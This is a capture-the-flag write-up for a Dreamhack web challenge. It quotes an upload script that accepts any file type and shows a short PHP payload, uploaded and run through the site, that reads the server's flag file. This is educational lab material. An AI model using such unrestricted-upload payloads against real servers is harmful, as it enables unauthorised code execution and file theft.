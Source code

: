 # image-storage
> link of prob : https://dreamhack.io/wargame/challenges/38/

<img width="566" alt="image" src="https://github.com/Hueok/dreamhack.io/assets/124287568/b4b65c5d-3f14-42a3-804a-571927013b6c">  

Above is the main page prob has.  
</br>

<img width="569" alt="image" src="https://github.com/Hueok/dreamhack.io/assets/124287568/0d3fe363-1cb5-41a1-93a2-db57e978d025">

We can upload image where _`./upload.php`_  
> The code of _`./upload.php`_ in php tag )
> ```php
><?php
>  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
>    if (isset($_FILES)) {
>      $directory = './uploads/';
>      $file = $_FILES["file"];
>      $error = $file["error"];
>      $name = $file["name"];
>      $tmp_name = $file["tmp_name"];
>     
>      if ( $error > 0 ) {
>        echo "Error: " . $error . "<br>";
>      }else {
>        if (file_exists($directory . $name)) {
>          echo $name . " already exists. ";
>        }else {
>          if(move_uploaded_file($tmp_name, $directory . $name)){
>            echo "Stored in: " . $directory . $name;
>          }
>        }
>      }
>    }else {
>        echo "Error !";
>    }
>    die();
>  }
>?>
> ```

We can't use Path Traversal because our file will not uploaded in name of what we want fully(the special character like `..` can not used by OS).  
But we can upload `file.html` or `command.php` so that xss occur or php command is run.  

I solved this prob by making php code that show the content of specific file by using Path Traversal. The reason why I can use Path Traversal is It just in my own php code.  

The below is that code.
```php
<?php
    $target = fopen("/flag.txt", "r");

    while( !feof($target)){
        echo fgets($target);
    }

    fclose($target);
?> 
```

And then, we can run this code in _`./list.php`_ by clicking href.
